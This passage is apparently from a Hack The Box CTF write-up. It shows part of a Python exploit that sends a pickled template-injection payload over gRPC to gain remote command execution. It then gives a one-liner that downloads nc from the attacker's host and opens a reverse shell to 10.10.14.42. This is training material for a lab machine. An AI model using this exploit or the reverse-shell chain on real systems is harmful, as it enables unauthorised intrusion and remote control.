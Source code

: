 ```python
    payload += "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

    feed = base64.b64encode(pickle.dumps(json % payload))

    print json % payload

    with grpc.insecure_channel("10.10.10.201:9000") as channel:
        stub = service_pb2_grpc.PrintStub(channel)
        response = stub.Feed(service_pb2.Content(data=feed))
        return response


if __name__ == '__main__':

    print exploit(sys.argv[1])

```

Let's give it a shot.

{% include image.html image_alt="c9eab335.png" image_src="/77e0085d-3198-472a-9f56-bf0531cc9eb3/c9eab335.png" %}

An explanation of what happened is in order. First of all, I've chosen to execute a simple HTTP request to my `nc` listening on `80/tcp` because I knew `curl` is available on the remote machine. Next, once `trigger.py` is executed, I need to kill it with a Ctrl-C because of the connection timeout issues mentioned in the decrypted PDF. As you can see from above, remote command execution was successful.

## Foothold

Once we have remote command execution, we can transfer `nc` with the `-c` or `-e` switches to launch a reverse shell like so.

```
# python trigger.py; python exploit.py "curl -s -o /tmp/nc 10.10.14.42/nc" && python exploit.py "chmod 777 /tmp/nc" && python exploit.py "/tmp/nc 10.10.14.42 1234 -e /bin/bash"
```

{% include image.html image_alt="7f22c605.png" image_src="/77e0085d-3198-472a-9f56-bf0531cc9eb3/7f22c605.png" %}

I'll choose SSH over any filmsy shell any day!

{% include image.html image_alt="fe0fa2d6.png" image_src="/77e0085d-3198-472a-9f56-bf0531cc9eb3/fe0fa2d6.png" %}

### Getting `user.txt`

The file `user.txt` is at `/home/solr`.

{% include image.html image_alt="da6750db.png" image_src="/77e0085d-3198-472a-9f56-bf0531cc9eb3/da6750db.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/269
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/13243
[4]: https://www.hackthebox.eu/